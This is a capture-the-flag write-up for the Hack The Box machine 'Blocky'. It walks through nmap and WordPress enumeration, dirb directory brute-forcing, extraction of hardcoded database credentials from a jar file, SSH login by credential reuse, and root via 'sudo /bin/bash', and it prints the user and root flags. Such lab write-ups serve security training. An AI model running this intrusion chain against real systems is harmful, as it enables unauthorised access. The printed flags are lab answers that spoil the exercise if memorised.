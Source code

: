 ![image](https://user-images.githubusercontent.com/105310322/187503223-277a4fc5-0ee2-446d-ac4b-d18e9dd8ca8f.png)

### Tools: nmap, dirb, jd-gui

### Vulnerabilities: wordpress, php, credentials


Starting off we have a few open ports. I first tested the ftp login for anonymous but that didn't work. So I tried accessing the website but kept getting issues.

```console
└──╼ [★]$ sudo nmap -sC -sV -A 10.129.67.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 17:57 BST
Nmap scan report for 10.129.67.120
Host is up (0.011s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp?
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (94%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.16 (93%), Linux 4.2 (93%), Linux 4.4 (93%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 - 4.6 (91%), Linux 3.2 - 4.9 (91%), Linux 3.18 (90%), Linux 3.2 - 3.8 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   17.78 ms 10.10.14.1
2   16.72 ms 10.129.67.120

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 240.66 seconds
```

A quick change to my hosts table will fix the redirect and allow us to access the site.

```console
└──╼ [★]$ sudo vim /etc/hosts
```
Add the following to the last line in the file.

```console
10.129.67.120 blocky.htb
```
We have a couple of links on the site including one for a login.

![image](https://user-images.githubusercontent.com/105310322/186245120-6ea699e9-7c27-4529-a551-060309b9656b.png)

![image](https://user-images.githubusercontent.com/105310322/186247909-49521513-6f0b-4ea2-b9c4-31a88c92ef57.png)



Since the login page is running wordpress we can do some enumeration. After running it we find 1 user "Notch". I thought maybe the user had a weak password so I tried a little of that and even tried the lost password section to see if I could capture something there. No luck. So lets see if dirb finds anything else.

```console
└──╼ [★]$ nmap -v --script http-wordpress* blocky.htb -p 80
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-23 19:31 BST
NSE: Loaded 3 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:31
Completed NSE at 19:31, 0.00s elapsed
Initiating Ping Scan at 19:31
Scanning blocky.htb (10.129.67.120) [2 ports]
Completed Ping Scan at 19:31, 0.02s elapsed (1 total hosts)
Initiating Connect Scan at 19:31
Scanning blocky.htb (10.129.67.120) [1 port]
Discovered open port 80/tcp on 10.129.67.120
Completed Connect Scan at 19:31, 0.00s elapsed (1 total ports)
NSE: Script scanning 10.129.67.120.
Initiating NSE at 19:31
Completed NSE at 19:31, 8.24s elapsed
Nmap scan report for blocky.htb (10.129.67.120)
Host is up (0.018s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-users: 
| Username found: notch
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|     akismet 3.3.2
|   themes
|     twentyfifteen 1.8
|     twentysixteen 1.3
|_    twentyseventeen 1.3
```


The dirb reveals alot of info. With most of them not meaning much I finally got some headway in the /plugins section of the site that led to 2 jar files.

```console
└──╼ [★]$ dirb http://blocky.htb /usr/share/dirb/wordlists/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug 23 19:48:05 2022
URL_BASE: http://blocky.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://blocky.htb/ ----
==> DIRECTORY: http://blocky.htb/javascript/                                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/                                   
==> DIRECTORY: http://blocky.htb/plugins/                                      
+ http://blocky.htb/server-status (CODE:403|SIZE:298)                          
==> DIRECTORY: http://blocky.htb/wiki/                                         
==> DIRECTORY: http://blocky.htb/wp-admin/                                     
==> DIRECTORY: http://blocky.htb/wp-content/                                   
==> DIRECTORY: http://blocky.htb/wp-includes/                                  
                                                                               
---- Entering directory: http://blocky.htb/javascript/ ----
==> DIRECTORY: http://blocky.htb/javascript/jquery/                            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/                               
+ http://blocky.htb/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)               
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/                                
+ http://blocky.htb/phpmyadmin/libraries (CODE:403|SIZE:305)                   
==> DIRECTORY: http://blocky.htb/phpmyadmin/locale/                            
+ http://blocky.htb/phpmyadmin/setup (CODE:401|SIZE:457)                       
==> DIRECTORY: http://blocky.htb/phpmyadmin/sql/                               
==> DIRECTORY: http://blocky.htb/phpmyadmin/templates/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/themes/                            
                                                                               
---- Entering directory: http://blocky.htb/plugins/ ----
==> DIRECTORY: http://blocky.htb/plugins/assets/                               
==> DIRECTORY: http://blocky.htb/plugins/files/                                
                                                                               
---- Entering directory: http://blocky.htb/wiki/ ----
                                                                               
---- Entering directory: http://blocky.htb/wp-admin/ ----
==> DIRECTORY: http://blocky.htb/wp-admin/css/                                 
==> DIRECTORY: http://blocky.htb/wp-admin/images/                              
==> DIRECTORY: http://blocky.htb/wp-admin/includes/                            
==> DIRECTORY: http://blocky.htb/wp-admin/js/                                  
==> DIRECTORY: http://blocky.htb/wp-admin/maint/                               
==> DIRECTORY: http://blocky.htb/wp-admin/network/                             
==> DIRECTORY: http://blocky.htb/wp-admin/user/                                
                                                                               
---- Entering directory: http://blocky.htb/wp-content/ ----
==> DIRECTORY: http://blocky.htb/wp-content/plugins/                           
==> DIRECTORY: http://blocky.htb/wp-content/themes/                            
==> DIRECTORY: http://blocky.htb/wp-content/uploads/                           
                                                                               
---- Entering directory: http://blocky.htb/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://blocky.htb/javascript/jquery/ ----
+ http://blocky.htb/javascript/jquery/jquery (CODE:200|SIZE:284394)            
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/doc/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/doc/html/                          
                                                                               
---- Entering directory: http://blocky.htb/phpmyadmin/js/ ----
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/jquery/                         
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/pmd/                            
==> DIRECTORY: http://blocky.htb/phpmyadmin/js/transformations/                
                                                                      
```  

Using ```jd-gui``` from the terminal will open the program and we can open blockycore.jar.
It is a small file that reveals a sqlpass and sqluser.

![image](https://user-images.githubusercontent.com/105310322/186242875-61349b7a-819b-4972-958f-88b233bcfbff.png)


Since there was an ssh port open we can try that first. Root doesnt work so I try notch instead and we get in and can cat that sweet sweet user flag.

```console
└──╼ [★]$ ssh notch@blocky.htb
The authenticity of host 'blocky.htb (10.129.67.120)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'blocky.htb,10.129.67.120' (ECDSA) to the list of known hosts.
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:24:50 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
0f10d469927782d02fa148d543bdb3ab
notch@Blocky:~$ 
```
Whenever I get into a machine as a user I always like to check my sudo permissions. This 1 was a suprise since it can run everything as sudo. 1st time for everything on HTB.

By running an easy sudo /bin/bash we quickly become root and cat the root flag!

```console
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# 
```
```console
root@Blocky:/root# ls
root.txt
root@Blocky:/root# cat root.txt
46ea558791cc4b4319e8eb4860b37c64
root@Blocky:/root# 
```

GG!!
